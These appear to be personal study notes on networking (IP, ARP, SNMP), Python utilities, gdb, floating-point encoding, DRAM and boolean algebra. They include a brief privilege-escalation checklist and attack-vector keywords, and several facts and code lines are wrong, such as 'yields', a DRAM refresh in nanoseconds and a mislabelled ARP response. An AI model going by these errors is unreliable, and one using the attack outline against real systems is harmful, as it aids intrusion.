         |          0 | Routine(normal)      |
         |          1 | Priority             |
         |          2 | Immediate            |
         |          3 | Flash                |
         |          4 | Flash Override       |
         |          5 | Critical             |
         |          6 | Internetwork Control |
         |          7 | Network Control      |

       - 4-bit(0-15) the Type-of-Service value predefined by IANA, in RFC 1349.
         | Value | Service               |                        |
         |-------+-----------------------+------------------------|
         |     0 | Normal                | all flags off          |
         |     1 | Minimize Cost         |                        |
         |     2 | Maximize Realiability |                        |
         |     4 | Maximize Throughput   | 1 for high throughput  |
         |     8 | Minimize Delay        | 1 for low delay        |
         |    15 | Maximize Security     | RFC 1455, experimental |

       - the IANA also published suggested TOS values for common application protocols.
         
     + there values are more respected in unix/linux environment.

     + in conjunction with TOS-aware router, it is possible to provide deterministic routing service across the managed network, provide different routing depending on the needs of each packet.

*** the IP Header
    #+begin_quote
    An IP datagram is made up of at least thirteen fields, with twelve fields being used for the IP header, and one field being used for data. In addition, there are also a variety of supplemental fields that may show up as “options” in the header. The total size of the datagram will vary according to the size of the data and the options in use.
    #+end_quote

**** the mandatory fields
     | Field                  |   Bits | Notes                                                         |
     |------------------------+--------+---------------------------------------------------------------|
     | Version                |      4 | IPv4/v6                                                       |
     | Header Length          |      4 | in 32-bit multiples, 20 bytes = 5 * 32/8bits                  |
     | ToS Flags              |      8 | type of service flags                                         |
     | Total Packet Length    |     16 | length of (header + body), in bytes                           |
     | Fragment Identifier    |     16 | Identifier of a datagram                                      |
     | Fragmentation Offset   |     13 | in 8 bytes, the start position of this fragment               |
     | Time-to-Live           |      8 | the remaining hops a datagram can take                        |
     | Protocol Identifier    |      8 | Identifies the higher-layer protocol used in the data section |
     | Header Checksum        |     16 | checksum of the IP header                                     |
     | Source IP Address      |     32 | the 32-bit IP address of the original sender                  |
     | Destination IP Address |     32 | the 32-bit IP address of the final destination                |
     | Options(optional)      | varies | cache specific data if ToC Source Routing or Timestamp, etc.  |
     | Padding(if required)   | varies | an IP datagram header must be a multiple of 32 bits long.     |
     | Data                   | varies | Normally could contain a complete TCP/UDP message,            |
     |                        |        | although it could also be a fragment of another IP datagram.  |

     + header length: used to determine where the data portion start. minum value: 5.
     + [[http://www.isi.edu/in-notes/iana/assignments/protocol-numbers][protocol identifier]]
       | Protocol ID | Protocol Type                            |
       |-------------+------------------------------------------|
       |           1 | Internet Control Message Protocol(ICMP)  |
       |           2 | Internet Group Management Protocol(IGMP) |
       |           6 | Transmission Control Protocol(TCP)       |
       |          17 | User Datagram Protocol(UDP)              |
     + header checksum: must be modified every time the packet forwarded across a router(since at least TTL will change)
     + ip options: 
       #+begin_quote
       Options are not mandatory, and most IP datagrams do not have any options defined. However, all network devices should support the use of options. If a device does not recognize a specific option type, then it should ignore the option and go ahead and process the datagram as normal.
       ...
       There can be many options in a single IP datagram, up to the amount of free space available in the IP header. Since an IP header can only be 60 bytes long at most—and since 20 bytes are already in use by the default fields—only 40 bytes are available for options.
       #+end_quote
       - option-type (8 bits) [[http://www.isi.edu/in-notes/iana/assignments/ip-parameters][most commonly used ip option types (IANA)]]
         + copy(1 bit): should be copy to every fragment's header.
         + class(2 bits): 0 for network control options, 2 for debugging services, 1 & 3 reserved for future use.
         + type(5 bits): specify which ip option
       - option-length (8 bits)
       - option-data (varies)
         
*** IP in Action, basic routing table
    |    Destination |         Netmask |       Gateway |     Interface |
    |----------------+-----------------+---------------+---------------|
    |        0.0.0.0 |         0.0.0.0 |  192.168.10.3 | 192.168.10.10 |
    |      127.0.0.0 |       255.0.0.0 |     127.0.0.1 |     127.0.0.1 |
    |   192.168.10.0 |   255.255.255.0 | 192.168.10.10 | 192.168.10.10 |
    | 192.168.10.255 | 255.255.255.255 | 192.168.10.10 | 192.168.10.10 | 
    |                |                 |               |               |
    
    + 0.0.0.0 the default route for this device 
    + 192.168.10.255 broadcast address for the local network
    + in each network the device should have an unique ip address(assigned to the interface): in this case, the system is connected to a loopback network(this machine) and a local Ethernet network.
    + 127.0.0.0 vs 127.0.0.1:
      #+begin_quote
      the 127.0.0.0 is a network address. Together with mask 255.0.0.0 it gives you a hint that ... 127.*.*.* will contain loopback addresses.
      the 127.0.0.1 is a loopback address, so does 127.0.0.2 or 127.0.0.3 and etc.
      #+end_quote
      
**** subnet mask and multicast address
    + 172.16.0.0/12:
      | Note |                            Binary form |    Dot-decimal |
      |------+----------------------------------------+----------------|
      |    1 | 10101100.0001 *0000.00000000.00000000* |     172.16.0.0 |
      |    2 |    11111111.11110000.00000000.00000000 |    255.240.0.0 |
      |    3 |    00000000.00001111.11111111.11111111 |   0.15.255.255 |
      |    4 |    10101100.00011111.11111111.11111111 | 172.31.255.255 |

      1. the ip address
      2. Subnet Mask
      3. Bit Complement(Bitwise NOT) of the Subnet Mask
      4. Broadcast address(Bitwise OR of 1 and 3)
         
    + special case:
      #+begin_quote
      255.255.255.255 is the broadcast address of the zero network or 0.0.0.0, which in Internet Protocol stands for *this network*, i.e. the local network. Transmission to this address is limited by definition, in that it is never forwarded by the routers connecting the local network to other networks.
      #+end_quote

**** possible routing problem and debugging
    1. the pinciple: 
      - ip devices try to connect each other directly whenever possible, and use route when direct connection is not possible.
      #+begin_quote
      Since IP is designed as a node-centric networking protocol, every device has equal access to the network. In this model, any device can communicate with any other device directly, without requiring the services of a centralized host. Nodes do not send traffic to a central host for processing and relay services, but instead communicate directly with the destination system, if possible.

      When this is not possible—such as when the two hosts are on separate networks—then the sending device has to locate another device to relay the traffic to the destination system on its behalf. Even in this situation the sending device is still self-deterministic, since it chooses which local device it will send the datagrams to for forwarding.

      The process of choosing an intermediate forwarding device is called routing. Whenever a device needs to choose a forwarder, it looks at a local list of available networks and forwarders (called the “routing table”), and decides which interface and forwarder is the most appropriate for the specific datagram that needs to be sent.
      #+end_quote

      - fragmentation problem might be detected by sending large size ICMP datagram using ping.
     
      - use the ICMP protocol to debug, since almost all problems are related with delivery difficulties.
        #+begin_quote
        Since IP provides only simple delivery services, almost all of the problems with IP are related to delivery difficulties. Perhaps a network segment is down, or a router has been misconfigured, or a host is no longer accepting packets.

        In order to effectively debug problems with IP delivery, you should rely on the ICMP protocol. It is the function of ICMP to report on problems that will keep IP datagrams from getting delivered to their destination effectively. 
        #+end_quote
    2. routing table misconfigured
       - traceroute
    3. media related issues
       - possible infractructure problem
       #+begin_quote
       Since IP packets are sent inside of media-specific frames, there can be problems with some network media that will manifest when used with IP packets. For example, some network managers have reported problems with network infrastructure equipment such as Ethernet hubs and switches that have problems dealing with full-sized (1500-byte) packets. In those situations, you will need to use ICMP to probe the network for delivery problems through equipment that is acting suspicious.
       #+end_quote
  
**** ?Q: ARP and peers on an VPN
     + ?(lack reference)dial-up vs VPN:
       - dial-up use telephone line, but I think they share a similar topology(packet switching), i.e. client-server-Internet
       - while all IP devices are treated as independence entities, both dial-up and VPN delegate ip communication with the Internet to a "server".

     + ?(lack reference)peers on VPN
       - if any communication between clients may happen, it should be after they dial in to the VPN server.
       - so potential arp attack might happen only if the clients are sharing an environment which is behind the VPN server(a shared lab, for example.) A client may send ARP through a shared lab machine. (detail?)
       - ? other angle on the VPN server?
         
**** 

         

* Book4_Chapter 03 The Address Resolution Protocol
  #+begin_quote
  In order for IP systems to communicate with each other, they must first be able to identify the hardware addresses of the other devices on the same network segment that the local device is on. This service is provided by the Address Resolution Protocol.
  #+end_quote

** the ARP standard
  #+begin_quote
  ARP packets communicate with the data-link layer directly, the same as IP packets. As such, ARP packets are completely separate from IP packets; they even have a different protocol ID of 0806, instead of 0800 as used with IP.
  #+end_quote

  + fields of an ARP packet
| field No. | field detail                                                    |
|-----------+-----------------------------------------------------------------|
| 1         | the hardware address of the sources(who issued the ARP request) |
| 2         | the IP address of the source                                    |
| 3         | the hardware address of the destination                         |
| 4         | the IP address of the destination                               |
| 5         | the "message type" of this ARP packet                           |

  + a normal packet of ARP request :
  | field No. | field detail                         |
  |-----------+--------------------------------------|
  | 1         | the hardware address of the "sender" |
  | 2         | the IP address of the "sender"       |
  | 3         | 000...0                              |
  | 4         | the IP address of the "target"       |
  | 5         | "ARP request"                        |

  + a normal packet of ARP response:
| field No. | field detail                         |
|-----------+--------------------------------------|
| 1         | the hardware address of the "sender" |
| 2         | the IP address of the "sender"       |
| 3         | the hardware address of the "target" |
| 4         | the IP address of the "target"       |
| 5         | "ARP request"                        |
    
 + since ARP has no timeout, in some implementations when a new packet come to the queue and ask for an ARP request for an IP address, whose last ARP request is yet to be received, then the former packet which required the last ARP request may be dropped, depend on the implementation.
   #+begin_quote
   Many implementations only have room in the ARP lookup queue for a single packet for each of the hosts being queried. If an ARP request is not satisfied and another packet arrives from IP for the host being queried, then the first query will likely be aborted, and a second query will be issued. 
   #+end_quote

*** the ARP Cache
   #+begin_quote
   When the requesting system gets an ARP response, it will store the hardware and IP address pair of the requested device into a local cache. The next time that system needs to send data, it will check the local cache, and if an entry is found it will go ahead and use it, eliminating the need to broadcast another request.

   Likewise, the system that responded to the ARP broadcast will store the hardware and IP addresses of the system that sent the original broadcast. If it did not do so, it would have to issue an ARP broadcast to find out where to send the ARP response.

   Since all of the systems on the network will see the ARP broadcast, they could go ahead and capture the IP and hardware addresses of the sender, storing this information in their own caches. However, doing this might cause existing entries in the cache to be flushed (an especially problematic issue with systems that have small caches), so *only those systems who already have the sender’s IP address in their cache should update their entries*. Hosts that do not already have the device in their cache should ignore the broadcast.
   #+end_quote

   + potential issues:
     - cache size issue
     - cache timeout issue: If lifespan too long, old cache still in effect on some host, so that package of newly assigned ip went wrongly to old machines; Else, lifespan too short, the network is flooded with ARP broadcast.
     #+begin_quote
     RFC826: (Did not suggest a specific timeout value, but do state that) if a device sees an ARP packet whose IP address is already in the cache, then any timeout clocks for that entry should be reset. This helps the already-cached data to survive for as long as possible.
     #+end_quote
     - static caching
*** Proxy ARP p102


* Book4_Related Other Protocals
** Simple Network Management Protocol(SNMP)
*** the basic
   + the info structure:
     - Object Identifier (OID) 
     - Management Information Base (MIB tree)
   + versions:
     - 1: auth with community string, no encryption.
     - 2c: feature rich, auth with community string, no encryption.
     - 3: auth, encryption with des, maybe aes depend on devices
   + tools: 
     - prtg: ~snmp-server view/group/user ?~
   + info:
     - SNMP Object Navigator, the MIB tree.

*** v3 attributes:
    + view: what can a user see
    + group: security policies
    + user: auth + data encryption key
    


* S2 python#utilities
** char, string processing (python)
*** TODO string formating

*** ~split~, ~join~
    #+begin_src
    l=[1,2]
    s = ' - '.join(l)
    l2 = s.split(' - ')
    #+end_src

*** encoding and decoding in python
   [[ut#EncodeDecodeAFile.py]]
   + ~str("こ").encode("utf-8")~ //<class 'bytes'> b'\xe3\x81\x93' 
   + ~b'\xe3\x81\x93'.decode("utf-8")~ //<class 'str'> 'こ'

   + ~130 177 130 241 130 201 130 191 130 205~ //Shift-JIS str 'こんにちは'
   + ~chr(99)~ //'c'
   + ~hex(130) + hex(177) + hex(130) + hex(241)~ //"0x820xb10x820xf1"
   + ~b2 = b"\x82\xb1\x82\xf1"~ //b2.__class__ = <bytes>
   + ~(b2.decode("shift-jis")~ //"こん"

**** base64 encoding decoding in python
     #+begin_src
     import base64
     o1 = base64.b64encode(b'cat') # b'Y2F0'
     o2 = base64.b64decode(o1) # b'cat'
     #+end_src

**** @Deprecated: codecs
   + ~codecs.encode(bytes('こんにちは', 'shift-jis'), encoding="base64")~ //b'grGC8YLJgr+CzQ==\n'
   + ~codecs.decode(b'grGC8YLJgr+CzQ==\n', encoding="base64")~ //b'\x82\xb1\x82\xf1\x82\xc9\x82\xbf\x82\xcd'
   + ~codecs.decode(b'\x82\xb1\x82\xf1\x82\xc9\x82\xbf\x82\xcd', encoding="shift-jis")~ //こんにちは
   + ~codecs.decode(b'grGC8YLJgr+CzQ==\n', encoding="base64").decode("shift-jis")~ //こんにちは

**** *Endianness* the Big-endian(BE) and Little-endian(LE)
     + BE: *the most significant byte -> smallest memory address.*
       - //left to right human readable? but reverse
       - an 32-bit int: 0x0A0B0C0D
         + (assume byte p* is the starting byte of a memory section)
         + 0A -> p
         + 0B -> p + 1
         + 0C -> p + 2
         + 0D -> p + 3
     + LE: *the most significant byte -> biggest memory address.*
       - //a bigger byte goes to a bigger address
       - an 32-bit int: 0x0A0B0C0D
         + (assume byte p* is the starting byte of a memory section)
         + 0D -> p
         + 0C -> p + 1
         + 0B -> p + 2
         + 0A -> p + 3

***** Endianness in python
      #+begin_src
      an_int = 5
      two_bytes_big = an_int.to_bytes(2,'big') # b'\x00\x05'
      two_bytes_little = an_int.to_bytes(2,'little') # b'\x05\x00'
      #+end_src

      
** data utilities
*** sort
    #+begin_src
    class C:
        def __init__(self, name, attr1, attr2):
            self.name = name
            self.attr1 = attr1
            self.attr2 = attr2 

    e1 = C('n', 1, 100)
    e3 = C('n', 3, 103)
    e2 = C('y', 2, 102)
    l = [e1, e3, e2]
    s_l = sorted(l, key=lambda e: e.attr1)
    s_l = sorted(l, key=attrgetter('name'), reverse=true)
    #+end_src


** network utilities (python)
*** request
    #+begin_src python
import requests
res = requests.get(urls, ...params)
res2 = requests.post(urls, <data>, <json>, [...args])
print(res.text)
    #+end_src
S2 python#scripting

*** socket
    + //socket(type, semantics)


** general utilities
*** timer
    + basic usage
      #+begin_src python
      import time
      t1 = time.perf_counter() # monotonic, high resolution, os-wide global(including time elapsed during sleep)
      t2 = time.perf_counter()
      print(t2 - t1)
      #+end_src
    + ~time.get_clock_info('monotonic' || 'perf_counter' || 'process_time' || 'thread_time' || 'time')~ //show info of each clock in detail
      - monotonic means a clock never go backwards, and is not affected by system clock updates.

*** subprocess (shell intereaction)
    + // input argv[], capure the result, redirect the output and input, ? text or bytes output.
    #+begin_src python
      import subprocess
      p1 = subprocess.run(['ls', '-la'], capture_output=True)
      print(p1.stdout)
      print(p1.stdout.decode())
      print(p1.stdout.decode('utf-8'))
      
      with open('f', 'w') as f:
          p1 = subprocess.run([], stdout = f,  text=True, check=True)
      
      p2 = subprocess.run(['grep', '-n', 'str'], capture_output=True, text=True, input=p1.stdout)
    #+end_src

** regex (the ~re~ module)
   + basic syntax
     #+begin_src python
import re
text_to_search = '''
abcd-efg
1234567
ABCD_EFG
'''
pattern = re.compile('(a|b)[cC](d)', re.IGNORECASE) # compile
matches = pattern.finditer(text_to_search)
for match in matches:
    print(match)
    print(match.group(0)) # group(0) for all, (1) for content inside the first parentheses

print(pattern.sub(r'\1 | \2', text_to_search)) # substitute the match in text_to_search with group 1, 2 r'\1 | \2'

print text_to_search[1:4] # string slice
     #+end_src

   + pattern methods(pattern = re.compile(r'regex', flag))
     - ~pattern.finditer(str)~
     - ~pattern.findall(str)~   //print --only-matching str[], *if the pattern has no capturing groups*.
     - ~print(pattern.sub(r'\1 | \2', text_to_search))~ //substitute the match in text_to_search with group 1, 2 r'\1 | \2'

   + special characters
     | .            | any char except new line                                      |
     | \d           | digit (0-9)                                                   |
     | \D           | not a digit                                                   |
     | \w           | a word char(a-z, A-Z, 0-9, _), note that dash is not included |
     | \s           | whitespace(space, tab, newline)                               |
     | \S           | not whitespace                                                |
     | \b           | wordboundary                                                  |
     | \B           | wordboundary                                                  |
     |--------------+---------------------------------------------------------------|
     | a(?=c)       | positive lookahead, find "a" which has "c" after it           |
     | a(?!c)       | negative lookahead, find "a" which does not have "c" after it |
     | (?<=a)c      | positive lookbehind, find "c" where "a" precedes              |
     | (?<!a)c      | negative lookbehind, find "c" where "ab" does not precede     |
     |--------------+---------------------------------------------------------------|
     | (?>a\vertb)c | not well supported, avoid using. atomic groups.               |

     - since no syntax for negated group, use the negative lookbehind instead.

    + *quantifier*
     | *     | 0 or more                   |
     | +     | 1 or more                   |
     | ?     | 0 or one                    |
     | {3}   | exact number                |
     | {3,4} | range of numbers (min, max) |

    + character set
      - [^ab] // any char but a or b
      
    + grouping
      - //group(0) is all groups, group(n) is the nth parentheses from left to right
      - (com|org|co\.uk)
    
    + //examples:
      - ~re.compile(r'Mr\.?\s[A-Z]\w+')~
      - ~re.compile(r'[a-zA-Z_0-9.+-]+@[a-zA-Z0-9-]+\.(com|edu|net)')~
      - ~re.compile(r'M(r|s|rs)\.?\s[A-Z]\w*')~

    + flags:
      - re.IGNORECASE
        

* S2 python#scripting
** basic
    + ~python -m module argv[]~
    + ~dir(); help()~
      #+begin_src
      import json
      dir(json); help(dir); help(json);
      #+end_src

*** pipenv
    + ~pipenv shell~
    + ~pip -V~ //the version & path of the pip, which reveals the env path.
    + ~exit~
    + ~pipenv run python~


** useful syntax
  + ~list(range(1,3))~ //[1, 2]
  + ~a, *b, _ = (1, 2, 3, 4)~ // *b = [2, 3]
  + ~setattr(obj, key, value); getattr(obj, key); hasattr(obj, key); delattr(obj, key)~
    #+begin_src
    class C:
        a = 0
    
    c = C()
    k = 'k1'
    setattr(c, k, 'v'); # c.k1 === 'v'
    kn = '1' # attribute name must be string
    setattr(c, kn, 3); # //! c.1, start with number, invalid syntax
    getattr(c, '1'); # ok
    #+end_src
  + ~for k,v in dict.items()~
    #+begin_src
    d = {'k1': 1, 'k2': 2, 'k3': 3}
    for k,v in d.items():
        print(k, v)
    #+end_src

*** generator && <list | dictionary | set> comprehension
    + // *basic generator*:
      #+begin_src python
      def basicGenerator ():
          for i in [1, 2, 3]:
              yields i

      gen = basicGenerator()
      next(gen)                # 1
      for e in gen:
          print(e)             # 2 3

      # //! next(gen)          # error  

      list(basicGenerator()) # fetch all results into a list 
      #+end_src

    + // *basic list comprehension*:
      - ~a_list = [x*x for x in [1, 2, 3]]~ // [1, 4, 9]

    + // *generator in list comprehension*:  
      #+begin_src python
      genLC = (i for i in [1, 2, 3])
      #+end_src
    
    + // *the nth element of a generator*:
      #+begin_src python
      from itertools import islice, count 
      iterable = (i for i in [1, 2, 3]) # a same generator
      start = 1 # -ge 0
      stop = None; # to the end

      x = islice(iterable, start, None) 
      # islice(iterable, start, None[, step]) 
      # Make an iterator that returns selected elements from the iterable. If start is non-zero, then elements from the iterable are skipped until start is reached.
      next(x) # 2
      next(x) # 3 
      #+end_src

    + // *advanced list comprehension*
      #+begin_src python
      l1 = map(lambda n: n*n, nums)
      l1 = [n*n for n in nums] # equivalent

      l2 = [n for n in nums if n%2 ==0]
      l2 = filter(lambda n: n%2 ==0, num]
      
      l3 = [(letter, num) for letter in 'abcd' for num in range(4)]
      #+end_src
    
    + // *dictionary comprehension*
      #+begin_src python
      names = ['Peter', 'Hank']
      heros = ['Batman', 'Whom']
      d1 = {name: hero for name, hero in zip (names, heros) if name != 'Peter'}
      # {'Hank': 'Whom'}
      #+end_src
    
    + // *set comprehension*
      #+begin_src python
      nums = [1, 1, 2]
      nums_set = { n for n in nums }
      #+end_src
      
*** print format
    #+begin_src python
r = set({'a', 'b', 'c'})

print(*r, sep='\n')        # 1
print('\n'.join(r))        # 2

rn = [1,2,3,4]
print(*rn, sep='\n', end='\nha\n', file=f)       # 1, default stdout
    #+end_src

*** function string execution
    #+begin_src python
funObj = compile(funStr, "fileNameOrAnyString", "exec") 
exec(funObj, {}, localmap)
    #+end_src
    
*** collections type
    + isinstance
    + collections.abc        // Abstract Base Classes for Containers


* S3 binary walk
** radare2
*** basic commands
   

** gdb
*** basic commands
    + // gdb is easy to use when src is accessible. (Assume function names, line numbers, etc. are known by its user.)

    + gdb
      - q(uit)
      - shell ps -C <program>
      - attach <pid>
      - file <path/to/pgn>

    + r(un) [args]                         # (re)run program
      - set args                           # set *argv[]
      - show args
      - n(ext)                             # next line
      - s(tep)                             # step into
      - si(stepi)                          # next instruction
      - c(ontinue)
      - f(inish of the current function)
      - advance [lineNumber]               #
        
    + record                               # enable recording
      - rs(reverse-step) [count]
      - rsi(reverse-stepi) [count]
      - rc(reverse-continue) [count]
      - reverse-finish         # -> begin of the current function invocation

    + b(reakpoint) [lineNum|funName|*Addr] # b *0x555555555171
      - info b(reakpoint)
      - d(elete) [\d*]                   # delete the/all breakpoint
      - disable                          # disable all breakpoints
      - enable [\d*]                     # enable the/all breakpoint
      - b *([&]<funName> + <offset>)     # set breakpoint by offset

    + layout <regs|src|asm|split>        # show the TUI register layout
      - # layout asm && layout src
      - *C-x a                           # leave the TUI layout
      - l(ist) [lineNumber|functionName] # print source code 
      - layout <prev|next>
      - * C-l(refresh)                   # refresh the GUI
      
    + display/i $pc                      # display current line assembly
      - x/i $pc                          # show current line assembly

    + # registers
      - info registers
      - # 4 gdb pseudoregisters:
        + $pc                            # an alias for $EIP or $RIP(x64)
        + $sp                            # an alias for $ESP or $RSP
        + $fp                            # an alias for $EBP or $RBP
        + $ps                            # processor status
        
    + x                     # display the memory content of an address
      - x/i $pc                          # instruction which $pc points to
      - x/x $pc (hexadecimal)
      - x/t $pc (binary)
      - x/c $pc (char)
      - x/a $pc (address)
      - x/d $pc (decimal)
      - x/u $pc (unsigned decimal)
      - $_                               # the last addr evaled
      - $__                              # the last value evaled
      - x/8gx $RSI                       # 8 giant-word(64-bit value) in hex, started from address $RSI
        
    + disas main

    + info locals                        # list local vars
      - p(rint) <varName> [=<nuwValue>]  # print/alter an var
      - p *<pointerName>                 # print len(*p)
      - p *<pName>[@<arrLength>]         # print *p (e.g. array elements)
      - set $foo = $bar

    + make                               # makefile
      
    + bt(backtrace) full                 # backtrace, use after crach


* S0 misc
** IEEE 754 floating number representation
   | 0           |       10000011 | 01000000000000000000000 |
   | 1-bit sign  | 8-bit exponent |         23-bit mantissa |
   | 0: positive |                |                         |

   + theRealFloatingPointValue = <sign>(1 + mantissa) * (2 ** (exponent - 127))
   + decimal <-> binary conversion:
     | decimal | 10^n, ... 10^1, 10^0, 10^-1, ... 10^-n |
     | binary  | 2^n, ... 2^1, 2^0, 2^-1, ... 2^-n      |
     
   + an example: convert an decimal 76.3 to floating number format.
     - the integer part: 7.
       | 76 / 2 | 38 | 0 |
       | 38 / 2 | 19 | 0 |
       | 19 / 2 |  9 | 1 |
       | 9 / 2  |  4 | 1 |
       | 4 / 2  |  2 | 0 |
       | 2 / 2  |  1 | 0 |
       | 1 / 2  |  0 | 1 |
       + the decimal 76 is equivalent to 0b1001100.

     - the fractional-part: 0.3, similarly, consider doing the (*2) and take the 1. Since it might be more human readable, than dividing a digit by 2^-n. 
       | 0.3 * 2 | 0.6 | 0 |
       | 0.6 * 2 | 1.2 | 1 |
       | 0.2 * 2 | 0.4 | 0 |
       | 0.4 * 2 | 0.8 | 0 |
       | 0.8 * 2 | 1.6 | 1 |
       | 0.6 * 2 | 1.2 | 1 |
       |         |     | . |
       |         |     | . |
       |         |     | . |
       + the decimal 0.3 is equivalent to 0.0100110011001... in binary.
         
     - combining the two parts
       + 1001100.0100110011001... is:
         - in scientific notation, 1.001100 0100110011001... * (2 ** 6).
       + the exponent bias is 127, or 0b01111111.
         - in this case, 127 + 6 = 133 or 0b10000101
       + the mantissa is the representation in scientific notation without the leading 1:
         - in this case, 001100 0100110011001...
       |              0 |      10000101 | 001100 0100110011001... |
       | 0 for positive | 6 + bias(127) | 23-bit mantissa         |
      
     - the final representation is: 0100 0010 1001 1000 1001 1001 1001...

       
* keywords misc
  + cfg bypass
  + [[https://danielmiessler.com/study/red-blue-purple-teams/]]
  + CVE-2017-0199 analysis


* checklist
  + scan
  + service/kernel exploit -> user
  + id/sudo/service/kernel/config enum -> root
    - enum services with root access?
  
* vectors:
** API unsanitized input
   + anything involves serialization and deserialization
   + the param of get is received as string.
   + use a fuzzer which generate and inject code string, to an "any" typed input.

//TODO 
burpsuite
ipython

* linux misc
  
** named pipe
   + info:
   #+begin_quote
   In computing, a named pipe (also known as a FIFO for its behavior) is an extension to the traditional pipe concept on Unix and Unix-like systems, and is one of the methods of inter-process communication (IPC). The concept is also found in OS/2 and Microsoft Windows, although the semantics differ substantially. A traditional pipe is "unnamed" and lasts only as long as the process. *A named pipe, however, can last as long as the system is up, beyond the life of the process*. It can be deleted if no longer used. Usually a named pipe appears as a file, and generally processes attach to it for IPC.
   #+end_quote
   + src:
   #+begin_src sh
   mkfifo my_pipe
   gzip -c < my_pipe > out.gz &
   echo 'a' > my_pipe
   #+end_src
   
   
** file attributes: chmod && chattr
*** chmod
    + ref: [[https://askubuntu.com/questions/472812/why-is-777-assigned-to-chmod-to-permit-everything-on-a-file]]
    + summary:
      | user | group | other |
      |------+-------+-------|
      | rwx  | rwx   | rwx   |
      - 111 111 111 -> 777
      - 101 101 101 -> 555
      - 111 101 101 -> 755
        
*** chattr && lsattr
    + ref: [[https://man7.org/linux/man-pages/man1/chattr.1.html][man 1 chattr]]
    + summary:
      - chattr [+-]a    # append only
      - chattr [+-]i    # immutable(not applied to file descriptor already opened)
      - chattr [+-]s    # secure delete (not honored by ext2, 3, 4 fs)


* e0cp00 Electronics, the basic

** SRAM/DRAM
   + docs:
     [[https://youtu.be/I-9XWtdW_Co][Dynamic Random Access Memory (DRAM). Part 1: Memory Cell Arrays]]
   + pics:
     [[./img/e0cp00_DRAM.PNG]]
*** transister
   + keywords(usage): SRAM block
   + info:
     - Source (to power supply)
     - Gate
       + apply voltage on the Gate allows current flow from Soruce to Drain
     - Drain (to ground)
   + N-type doping vs. P-type doping
     - In pure silicon, atoms shares the outter 4 electrons and form covalent bond.
     - N-type doping: replace an atom with e.g. Phosphorus
       - valence: (2,8,5), 1 free electron to donate
       - hence slightly *positive* after "donation"
     - P-type doping: replace an atom with e.g. Boron
       - valence: (2,3), 1 hole
       - hence slightly *negative* upon "acceptence"

   + Hence, N( *Emitter* of the electrons )P( *Base* )N( *Collector* of the electrons )
     
   
*** Ground
   + provide a reference to voltage

*** word line, bit line
    + keywords:
      - open bit line layout
     
*** Read a bit from DRAM
    + precharge the (capacitor of the?) bitline with until bitline at half of the full operating voltage.
    + turn on the word line.
    + the *differencial sence amplifier* detect the votage change hence knows the value of a word. The result is saved in a flip-flop circuit of the sence amplifer. The result then could be output through databuses.
    + hence a read operation of DRAM is destructive. It must be followed by an immediate write operation.
    + the voltage of bit lines are raised either to full operating voltage or dropped to the ground, depending to the read result, thus restores the data. 

    + an underlying problem:
      - a memory cell will leak charge to the bit line, even when the gate is closed. 
        - hence on regular basis, *refresh* operations is necessary. For every cells, approximately every 64 nano seconds

*** DRAM read/write
    + docs:
      - [[https://youtu.be/x3jGqOrXXc8][Dynamic Random Access Memory (DRAM). Part 2: Read and Write Cycles]]
    + keywords:
      - memory module multiplexing
      - active low: bar(RAS)
      - row/column address strobe
      - scaling
    + pics:
    [[./img/e0cp00_DRAMRW.PNG]]

    + info:
      - read && decode the Row Address (address of a word line).
      - values in the memory cell -> sense amplifier
      - sense amplifier -> output pin.
      - sense amplifier -> values in the memory cell

    + the timing for a basic *1 bit read cycle*
    [[./img/e0cp00_DRAMOneBitReadTiming.PNG]]

    + the timing for a basic *1 bit write cycle*
    [[./img/e0cp00_DRAMOneBitWriteTiming.PNG]]

*** misc

**** decoder 
    + a 3 to 8 decoder
    [[./img/e0cp00_DRAMBinaryDecoder.PNG]]

    + two 3 to 8 decoder combined
    [[./img/e0cp00_DRAMBinaryDecoderCombined.PNG]]

**** Multiplexer && Demultiplexer
    + an 8 to 1 multiplexer
    [[./img/e0cp00_DRAMMultiplexer.PNG]]

    + the control line of the multiplexer and the demultiplexer need to be synchronized.


* boolean algebra

** Karnaugh Maps (K-map)
   + the truth table:
| A | B | C | F |
|---+---+---+---|
| 0 | 0 | 0 | 0 |
| 0 | 0 | 1 | 1 |
| 0 | 1 | 0 | 0 |
| 0 | 1 | 1 | 1 |
| 1 | 0 | 0 | 1 |
| 1 | 0 | 1 | 1 |
| 1 | 1 | 0 | 1 |
| 1 | 1 | 1 | 0 |

   + the Karnaugh Map (K-map) 
    | BC\A | 0 | 1 |
    |------+---+---|
    |   00 | 0 | 1 |
    |   01 | 1 | 1 |
    |   11 | 1 | 0 |
    |   10 | 0 | 1 |

      - F = AB' + ABC' + A'C 
      - the map could be C\AB, gives equivalent result.
    | C\AB | 00 | 01 | 10 | 11 |
    |------+----+----+----+----|
    |    0 |  0 |  0 |  1 |  1 |
    |    1 |  1 |  1 |  1 |  0 |
      - F = AB'C + AC' + A'C 
      - validation -- 0111: 0&&1' || 1&&1 || 0&&0&1 = 1
